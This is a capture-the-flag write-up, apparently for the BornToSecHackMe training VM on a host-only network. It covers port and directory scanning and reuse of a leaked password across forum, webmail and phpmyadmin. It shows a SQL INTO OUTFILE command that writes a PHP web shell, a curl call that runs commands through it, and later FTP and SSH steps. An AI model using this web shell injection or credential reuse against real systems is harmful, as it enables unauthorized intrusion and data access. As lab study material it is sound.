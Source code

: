 # Writeup1
First we set up our VM with a host-only network adapter, as to have an idea where we will need to look
## Where do we go
First nmap to see which port are available on the server

    ┌──(kali㉿kali)-[~]
	└─$ nmap 192.168.56.0/24
	Starting Nmap 7.93 ( https://nmap.org ) at 	2023-05-22 09:20 EDT
	Nmap scan report for 192.168.56.1
	Host is up (0.00020s latency).
	Not shown: 995 closed tcp ports (conn-refused)
	PORT     STATE SERVICE
	22/tcp   open  ssh
	111/tcp  open  rpcbind
	2049/tcp open  nfs
	5900/tcp open  vnc
	9100/tcp open  jetdirect

	Nmap scan report for 192.168.56.102
	Host is up (0.00021s latency).
	Not shown: 994 closed tcp ports (conn-refused)
	PORT    STATE SERVICE
	21/tcp  open  ftp
	22/tcp  open  ssh
	80/tcp  open  http
	143/tcp open  imap
	443/tcp open  https
	993/tcp open  imaps

	Nmap scan report for 192.168.56.103
	Host is up (0.00018s latency).
	All 1000 scanned ports on 192.168.56.103 are in ignored states.
	Not shown: 1000 closed tcp ports (conn-refused)

	Nmap done: 256 IP addresses (3 hosts up) scanned in 16.37 seconds
 192.168.56.102 is the IP address of our server, we see  that it has a website available in http and in https
 Let's try to go there: 
 ![http website](placeholder)
The http website seem unexploitable
And the https://192.168.56.102 is not found
Let's try dirb to see which directories are available on each:

    ┌──(kali㉿kali)-[~]
	└─$ dirb http://192.168.56.102

	-----------------
	DIRB v2.22    
	By The Dark Raver
	-----------------

	START_TIME: Mon May 22 09:27:31 2023
	URL_BASE: http://192.168.56.102/
	WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

	-----------------

	                                                                             GENERATED WORDS: 4612

	---- Scanning URL: http://192.168.56.102/ ----
	                                                                             + http://192.168.56.102/cgi-bin/ 	(CODE:403|SIZE:290)                        
		                                                                             ==> DIRECTORY: http://192.168.56.102/fonts/
	+ http://192.168.56.102/forum (CODE:403|SIZE:287)                           
	+ http://192.168.56.102/index.html (CODE:200|SIZE:1025)                     
	+ http://192.168.56.102/server-status (CODE:403|SIZE:295)                   
                                                                            
	---- Entering directory: http://192.168.56.102/fonts/ ----
	                                                                             (!) WARNING: Directory IS LISTABLE. No need to scan it.
    (Use mode '-w' if you want to scan it anyway)
                                                                               
	-----------------
	END_TIME: Mon May 22 09:27:32 2023
	DOWNLOADED: 4612 - FOUND: 4
And Now with https:

    ┌──(kali㉿kali)-[~]
	└─$ dirb https://192.168.56.102

	-----------------
	DIRB v2.22    
	By The Dark Raver
	-----------------

	START_TIME: Mon May 22 09:31:15 2023
	URL_BASE: https://192.168.56.102/
	WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

	-----------------

	                                                                             GENERATED WORDS: 4612

	---- Scanning URL: https://192.168.56.102/ ----	                                                                          + https://192.168.56.102/cgi-bin/ (CODE:403|SIZE:291)                       
	                                                                             ==> DIRECTORY: https://192.168.56.102/forum/
                                                                             ==> DIRECTORY: https://192.168.56.102/phpmyadmin/
	+ https://192.168.56.102/server-status (CODE:403|SIZE:296)                  
                                                                             ==> DIRECTORY: https://192.168.56.102/webmail/
                                                                            
	---- Entering directory: https://192.168.56.102/forum/ ----
                                                                             + https://192.168.56.102/forum/backup (CODE:403|SIZE:295)                   
	+ https://192.168.56.102/forum/config (CODE:403|SIZE:295)                   
                                                                             ==> DIRECTORY: 	https://192.168.56.102/forum/images/
                                                                             ==> DIRECTORY: https://192.168.56.102/forum/includes/
	+ https://192.168.56.102/forum/index (CODE:200|SIZE:4935)                   
	+ https://192.168.56.102/forum/index.php (CODE:200|SIZE:4935)               
                                                                             ==> DIRECTORY: https://192.168.56.102/forum/js/
                                                                             ==> DIRECTORY: https://192.168.56.102/forum/lang/
                                                                             ==> DIRECTORY: https://192.168.56.102/forum/modules/
                                                                             ==> DIRECTORY: https://192.168.56.102/forum/templates_c/
                                                                             ==> DIRECTORY: https://192.168.56.102/forum/themes/
                                                                             ==> DIRECTORY: https://192.168.56.102/forum/update/

## Website
We have a forum available,a webmail and phpmyadmin available on the 443 port, let's check the forum first:

We find a post labeled problem login? :
When we look into it we see that the user lmezard specified what looks like a password as a login, let's try it on the forum:

    Oct 5 08:45:29 BornToSecHackMe sshd[7547]: 	Failed password for invalid user !q\]Ej?*5K5cy*AJ from 161.202.39.38 port 57764 ssh2  
	Oct 5 08:45:29 BornToSecHackMe sshd[7547]: Received disconnect from 161.202.39.38: 3: com.jcraft.jsch.JSchException: Auth fail [preauth]  
	Oct 5 08:46:01 BornToSecHackMe CRON[7549]: pam_unix(cron:session): session opened for user lmezard by (uid=1040)
![Login as mezard](Forum%20image)
It works and when you see the user page, we see an email:
laurie@borntosec.net

Let's try this email on the webmail we found earlier:
![Webmail](Webmail)
We try with the same password and it works ! Hourra !!!
Now we can check a very interessting mail labeled DB ACCESS
![DBACCESS](DBACESS)
This seems to be the loggin for phpmyadmin and it's the root user, it works.
## Backdoor
Now we can inject a backdoor in SQL, the only folder that we can write on is forum/templates_c
so let's do it:

	SELECT "<?php system($_GET['cmd']); ?>" into outfile "/var/www/forum/templates_c/backdoor.php"

We can now launch our commands:

    curl --insecure https://192.168.56.102/forum/templates_c/backdoor.php?cmd=ls%20-al%20/home/LOOKATME 
We see a LOOKATME file in the /home folder:
We find it's the password for the ftp connection of user lmezard: G!@M6f4Eatau{sF"

We connect to the ftp server, we see a fun file we download it, then we see which type of file it is: it's a POSIX tar archive let's unzip it:

    tar -xvf fun
We get a folder name ft_fun with a lot of pcap files
We try a few commands to see what's inside we get something interesting with the following one:

    ┌──(kali㉿kali)-[~/Desktop/ft_fun]
    └─$ cat * | grep return               
    //file483       return 'a';
    //file697       return 'I';
            return 'w';
            return 'n';
            return 'a';
            return 'g';
            return 'e';
    //file161       return 'e';
    //file252       return 't';
    //file640       return 'r';
    //file369       return 'p';
    //file3 return 'h';
 By putting the ones with file in front in the correct order we get:

     Iheartpwnage 
 We try it directly and it doesn't work so let's encrypt it 
 SHA256 is the way to go:
 we get                       

    330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4

Now we can connect to ssh on the machine:

    ssh laurie@<IP>
    password: 330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4
We are in.
We have a README file:

    HINT:
    P
     2
     b
    
    o
    4
    
    NO SPACE IN THE PASSWORD (password is case sensitive).

and a bomb binary
